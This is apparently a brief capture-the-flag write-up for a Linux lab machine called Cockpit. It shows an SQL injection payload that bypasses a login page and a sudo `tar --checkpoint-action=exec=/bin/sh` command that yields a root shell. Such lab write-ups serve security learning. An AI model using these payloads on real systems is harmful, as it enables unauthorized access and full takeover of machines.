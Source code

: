 # Cockpit (Linux)

## Initial Foothold

Found two login pages: `$IP:80/login.php` and `$IP:9090`. Attempted SQL injection on the first login page; the payload `' OR 1=1 --` did not work, but `' AND 1=1 -- -` successfully bypassed authentication. Retrieved valid credentials and used them to log in to the admin interface on port 9090.

## Privilege Escalation

Ran `sudo -l` as user `james` and saw permission to run `tar` with root privileges:

    (ALL) NOPASSWD: /usr/bin/tar -czvf /tmp/backup.tar.gz *

Consulted [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo) and executed:

    sudo /usr/bin/tar -czvf /tmp/backup.tar.gz * --checkpoint=1 --checkpoint-action=exec=/bin/sh

to gain a root shell.
